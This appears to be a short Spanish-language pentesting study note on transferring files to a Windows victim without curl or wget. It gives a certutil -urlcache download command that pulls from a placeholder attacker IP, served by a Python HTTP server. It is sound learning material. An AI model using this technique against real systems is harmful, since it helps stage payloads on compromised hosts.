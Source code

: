 - Que pasa si en un windows no tenemos las herramientas `curl` y `wget`?
	- Vamos a utilizar la herramienta `certutil` 
- El comando para usar esta herramienta seria:
```
certutil -split -urlcache -f http://(IP ATACANTE)/ELARCHIVOQUE_QUEREMOS_COMPARTIR EL_NOMBRE_QUE_QUEREMOS_DARLE_AL_ARCHIVO.
```

- Vamos a crear un archivo vacío en la maquina atacante, usaremos el comando `touch` .
![[Pasted image 20241211200500.png]]
- Vamos a levantar nuestra pagina http con el comando:
```
python3 -m http.server 80
```
- Vamos a la maquina victima y usamos la herramienta `certutil` .
![](../Imagenes/Pasted%20image%2020241211200816.png)
- Estará cargando y nos saldrá esto:
![](../Imagenes/Pasted%20image%2020241211200853.png)
